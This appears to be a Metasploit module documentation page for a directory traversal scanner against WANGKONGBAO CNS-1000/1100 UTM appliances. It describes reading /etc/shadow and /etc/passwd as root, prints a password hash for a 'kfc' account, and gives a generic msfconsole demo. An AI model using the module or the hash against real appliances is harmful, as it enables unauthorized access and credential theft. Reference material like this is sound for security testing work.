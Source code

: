 ## WANGKONGBAO CNS-1000 and 1100 UTM Directory Traversal

This module exploits the WANGKONGBAO CNS-1000 and 1100 UTM 
appliances aka Network Security Platform. This directory 
traversal vulnerability is interesting because the apache 
server is running as root, this means we can grab anything 
we want! For instance, the /etc/shadow and /etc/passwd files 
for the special 
kfc:$1$SlSyHd1a$PFZomnVnzaaj3Ei2v1ByC0:15488:0:99999:7::: 
user


## Module Name
auxiliary/scanner/http/wangkongbao_traversal

## Authors
* Dillon Beresford


## References
* https://www.exploit-db.com/exploits/19526




## Platforms


## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use auxiliary/scanner/http/wangkongbao_traversal
msf auxiliary(wangkongbao_traversal) > show targets
   ... a list of targets ...
msf auxiliary(wangkongbao_traversal) > set TARGET <target-id>
msf auxiliary(wangkongbao_traversal) > show options
   ... show and set options ...
msf auxiliary(wangkongbao_traversal) > run
```
    
    